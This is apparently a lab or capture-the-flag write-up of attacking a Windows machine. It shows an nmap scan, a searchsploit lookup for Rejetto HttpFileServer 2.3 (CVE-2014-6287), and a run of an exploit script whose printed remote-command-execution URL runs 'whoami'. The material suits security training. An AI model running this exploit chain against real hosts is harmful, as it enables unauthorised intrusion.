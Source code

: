 Includes:
- Recon
  - nmap
  - web apps
  - searchsploit
- Exploit
  - metasploit
- Privilege esculation
  - Enumeration
  - Misconfiguration & exploiting services
  - msfvenom

#### Nmap

Use nmap to scan windows machine. `-Pn` is specified because windows was ignoring icmp requests.

```bash
$> sudo nmap -sS -sV -Pn -vv 10.10.30.80 -oA nmap-results.txt
...

PORT      STATE SERVICE            REASON          VERSION
80/tcp    open  http               syn-ack ttl 127 Microsoft IIS httpd 8.5
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
8080/tcp  open  http               syn-ack ttl 127 HttpFileServer httpd 2.3
49152/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49163/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
```

#### Search for exploits

Find exploits related to the service running on port 8080, Rejetto Http File Server 2.3.

```bash
$> searchsploit "httpfileserver"
...

Rejetto HttpFileServer 2.3.x - Remote Command Execution (3) | windows/webapps/49125.py

$> searchsploit -p windows/webapps/49125.py
[CVE2014-6287](https://www.exploit-db.com/exploits/39161)
```

We can mirror the script shown in searchsploit and take a look at what it does. It just forms a url with a specific search query parameter that allows for remote code execution and makes a request to the service to perform that action.

```bash
$> searchsploit -m windows/webapps/49125.py
$> mv 49125.py command_exec.py

$> python3 command_exec.py 10.10.30.80 8080 whoami
http://10.10.30.80:8080/?search=%00{.+exec|whoami.}
```
